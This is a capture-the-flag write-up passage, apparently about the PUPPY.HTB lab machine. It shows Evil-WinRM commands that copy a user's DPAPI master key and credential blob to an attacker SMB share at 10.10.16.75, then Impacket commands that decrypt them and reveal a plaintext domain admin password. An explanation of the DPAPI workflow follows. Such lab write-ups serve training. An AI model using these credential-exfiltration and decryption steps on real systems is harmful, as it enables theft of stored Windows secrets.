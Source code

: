 
Copy 2 file, one is the master key And the other is where other passwords is stored.


> [!NOTE] Master key password
> The master key is protected using password, mostly its the login password of the user.

```powershell
*Evil-WinRM* PS C:\> copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.16.75\share\masterkey_blob
*Evil-WinRM* PS C:\> copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\10.10.16.75\share\credential_blob
```

```sh
> impacket.dpapi masterkey -file masterkey_blob -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

```sh
> impacket.dpapi credential -file credential_blob -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!

```


## Windows DPAPI workflow

### 1. Protected Secrets
- Apps (like Chrome, RDP, Wi-Fi, Outlook, etc.) don’t store plaintext passwords.
- Instead, they use **DPAPI** (`CryptProtectData` API) to encrypt them.
- The output is stored in `AppData\Roaming\Microsoft\Credentials\` as **credential blobs**, or in browser profiles, etc.
### 2. Master Keys
- DPAPI doesn’t encrypt directly with the user’s password.
- Each user has one or more **master keys** stored in:
```powershell
C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<SID>\
```
- Each master key file is encrypted using a key derived from the user’s Windows **logon password (or domain creds)**.
### 3. Decrypting a Master Key
- To decrypt a master key, you need the **user’s password hash** (NT hash, or the plaintext password).
- Tools like `mimikatz` or `dpapi.py` (from Impacket) can use the NT hash to decrypt it.
- Once decrypted, you get the **DPAPI Master Key (plaintext)**.
### 4. Using the Master Key
- The decrypted master key can then be used to open the **credential blobs**:
```sh
C:\Users\<user>\AppData\Roaming\Microsoft\Credentials\
```
- Each blob maps to a saved secret (Wi-Fi PSK, RDP password, browser login, etc.).